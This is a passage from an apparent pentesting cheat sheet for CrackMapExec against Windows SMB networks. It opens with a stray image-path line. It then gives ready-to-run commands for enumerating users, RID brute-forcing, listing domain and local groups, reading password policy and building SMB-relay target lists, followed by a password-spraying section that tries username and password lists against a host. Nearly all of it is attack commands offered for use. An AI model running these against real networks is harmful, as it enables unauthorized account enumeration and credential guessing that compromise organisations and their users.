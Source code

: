 ```
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --usersBruteForce RID 
```

#### BruteForcing RID

```
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --rid-brute
```

#### Domain Groups

```
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --groups
```

#### Local Groups

```
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --local-group
```

#### Password Policy

```
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --pass-pol
```

#### SMB Signing NOT Required

```
cme smb 192.168.1.0/24 --gen-relay-list relaylistOutputFilename.txt
```

## Password Spraying

#### Username and Password Lists

```
cme smb 192.168.1.101 -u user1 user2 user3 -p Summer18
cme smb 192.168.1.101 -u user1 -p password1 password2 password3
cme smb 192.168.1.101 -u /path/to/users.txt -p Summer18
cme smb 192.168.1.101 -u Administrator -p /path/to/passwords.txt
cme smb 192.168.1.101 -u /path/to/users.txt -p Summer18 --continue-on-success
```

#### Checking Login&#x20;

```
cme smb 192.168.1.101 -u user.txt -p user.txt
```

#### Checking Multiple Logins with username and password list

```
cme smb 192.168.1.101 -u user.txt -p password.txt
```
